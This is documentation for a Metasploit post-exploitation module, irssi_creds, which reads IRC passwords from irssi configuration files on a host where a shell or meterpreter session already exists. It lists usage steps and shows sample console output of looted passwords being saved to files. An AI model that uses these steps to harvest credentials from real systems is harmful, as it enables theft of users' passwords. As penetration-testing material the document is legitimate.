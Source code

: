 ## Vulnerable Application

[irssi](https://irssi.org/) an IRC and chat client.

This module was successfully tested against:

- OSX 10.10.5 and IRSSI version 0.8.19

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/irssi_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files containing irc passwords, they will be printed out.

## Scenarios

### OSX 10.10.5 and IRSSI version 0.8.19

```
msf post(irssi_creds) > run

msf post(irssi_creds) > run

[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found a IRC password(s): chubbybunnies,meatpopcicle
[+] IRC password(s) stored in /Users/jclaudius/.msf4/loot/20170410153351_default_192.168.10.99_irc.password_159907.txt
[+] IRC password(s) stored in /Users/jclaudius/.msf4/loot/20170410153351_default_192.168.10.99_irc.password_967698.txt
[*] Post module execution completed
```
